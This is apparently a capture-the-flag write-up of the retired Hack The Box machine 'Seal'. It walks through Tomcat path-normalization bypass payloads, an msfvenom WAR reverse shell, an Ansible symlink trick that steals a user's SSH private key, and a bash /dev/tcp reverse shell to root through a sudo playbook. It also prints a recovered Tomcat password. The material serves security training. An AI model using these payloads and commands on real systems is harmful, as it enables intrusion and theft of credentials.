

# Seal

This is the write-up for the box Seal that got retired at the 13th November 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.250    seal.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/seal.nmap 10.10.10.250
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b894739673d07315e3f4c27411ff967 (RSA)
|   256 04a74f399565c5b08dd5492ed8440036 (ECDSA)
|_  256 b45e8393c54249de7125927123b18554 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
|_http-title: Seal Market
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 401 Unauthorized
(...)
```

## Checking HTTPS (Port 443)

The website is a custom developed shop for vegetables an there is a search on the homepage.
In the footer is a potential username and hostname:
- _admin@seal.htb_

Lets search for hidden directories with **Gobuster**:
```
gobuster -u https://10.10.10.250/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

It finds the directory _admin_, but a **Tomcat error** results in HTTP status code _404 Not Found_.

## Checking HTTP (Port 8080)

The web service on port 8080 forwards to a login form for [GitBucket](https://gitbucket.github.io/) which is a Git platform that runs on **Java Virtual Machine (JVM)**:



It is possible to create an account to login an enumerate the repositories.
The repository _seal_market_ contains the code of the website on port 443 and the repository _infra_ has **YAML Playbook files** to automate the deployment of the web server with **Ansible**.

The file _tomcat/tomcat-users.xml_ in the repository _seal_market_ has no credentials, but when checking the history, there were credentials in the file before:
```
<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>
```

## Exploiting SSRF on Tomcat

The web server runs on **Tomcat** with **Nginx** as a reverse proxy and this combination has a known vulnerability described in [this talk by Orange Tsai](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf).
On page 40 there is an example of a payload that can be tested to access the _admin/dashboard_ directory:
```
https://10.10.10.250/admin;name=anything/dashboard/
```

The payload works and forwards to the page _Seal Market Admin Dashboard_.
This vulnerability can now be used to access the **Tomcat manager**:
```
https://10.10.10.250/manager;name=anything/html
```

There is another payload on page 48 that can also be used if the other one does not work:
```
https://10.10.10.250/manager/anything/..;/html
```

The credentials from the repository work and access is granted to the **Tomcat Web Application Manager**.
In here it is possible to upload **WAR files** to execute arbitrary code and gain a reverse shell.

Creating WAR file with **Msfvenom**:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=9001 -f war > shell.war
```

To upload the file successfully, it is recommended to forward the request to a proxy like **Burpsuite** and modify the path to the payload:
```
POST /manager/anything/..;/html/upload?org.apache.catalina.filters.CSRF_NONCE=124FC0FEC599B8311FFA865033B1FD33 HTTP/1.1
Host: 10.10.10.250
(...)
```

After uploading the file and browsing to it, the listener on my IP and port 9001 starts a reverse shell as the user _tomcat_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration script**.
In this case, I use **pspy** to enumerate the running processes:
```
wget http://10.10.14.3:8000/pspy64s

./pspy64s
```

Every minute the user _luis_ runs an **Ansible playbook** with sudo permissions:
```
/bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
```

Contents of _run.yml_:
```yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/
```

The playbook copies files and the [documentation of synchronize](https://docs.ansible.com/ansible/latest/collections/ansible/posix/synchronize_module.html#parameter-copy_links) shows that _copy_links_ copies symlinks as whole items.
This can be abused to reference the files in _/home/luis/.ssh_ to potentially gather a private SSH key.

Creating a symlink to the private _id_rsa_ key of _luis_ in the source directory:
```
cd /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads

ln -s /home/luis/.ssh/id_rsa luis.key
```

Decompressing the new archive in _/opt/backups/archives/_:
```
cd /opt/backups/archives/

gzip -d "backup-2022-*.gz"

mv "backup-2022-*.tar" backup.tar

tar -xf backup.tar
```

The archive has the files of the _dashboard_ directory and in there is also the private SSH key of _luis_:
```
ssh -i luis.key luis@10.10.10.250
```

### Privilege Escalation to root

The user _luis_ has permissions to run any **Ansible playbook** as root:
```
sudo -l

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

Creating a YAML file to execute a reverse shell:
```yml
- hosts: localhost
  tasks:
  - name: Get Shell
    command: /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.3/9002 0>&1'
```

Executing the playbook with `sudo`:
```
sudo /usr/bin/ansible-playbook shell.yml
```

After executing it, the listener on my IP and port 9002 starts a reverse shell as root!
